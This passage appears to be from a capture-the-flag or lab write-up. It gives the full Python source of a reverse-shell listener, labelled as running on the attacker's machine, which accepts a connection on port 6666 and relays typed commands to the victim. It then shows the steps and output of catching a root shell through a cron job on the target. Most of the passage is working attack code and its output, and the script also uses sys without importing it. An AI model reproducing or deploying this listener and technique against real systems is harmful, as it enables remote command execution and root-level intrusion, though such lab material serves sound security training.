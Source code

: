 ```
import socket
import threading
import os

# define send_commands function that accepts socket object
# encode commands and send across connection (conn.send)
# make received data readable by converting to UTF-8 string
# add end="" to responses to avoid new line character and move cursor to end
def send_commands(conn):
    while True:
        cmd = input()
        if cmd == 'quit':
            conn.close()
            server.close()
            sys.exit()
        if len(str.encode(cmd)) > 0:
            conn.send(str.encode(cmd))
            client_response = str(conn.recv(1024), "utf-8")
            print(client_response, end="")

# set attacker's IP and port
bind_ip = "10.10.234.130"
bind_port = 6666
serv_add = ((bind_ip),(bind_port))

# create socket object and bind to server address
# listen for connections every 5 seconds
server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
print (serv_add)
server.bind((serv_add))
server.listen(5)
print ("[*] listening on {}:{}".format(bind_ip,bind_port))

# accept successful connections
# print out details and ask for commands to be executed
conn,addr = server.accept()
print('accepted connection from {} and port {}'.format(addr[0],addr[1]))
print("enter the commands below")

# call send_commands function
# close connection if IF statement breaks
send_commands(conn)
conn.close()
```
* Start Python listener on attacking machine.
```
python ./Desktop/python_reverse_shell_server.py 
('10.10.234.130', 6666)
[*] listening on 10.10.234.130:6666
```
* Run Python reverse shell code on target.
```
python3 /tmp/test.py
```
* Reverse shell caught by listener.
  * Cron job ran successfully as root.
```
accepted connection from 10.10.114.83 and port 33502
enter the commands below
whoami
root
/root$
```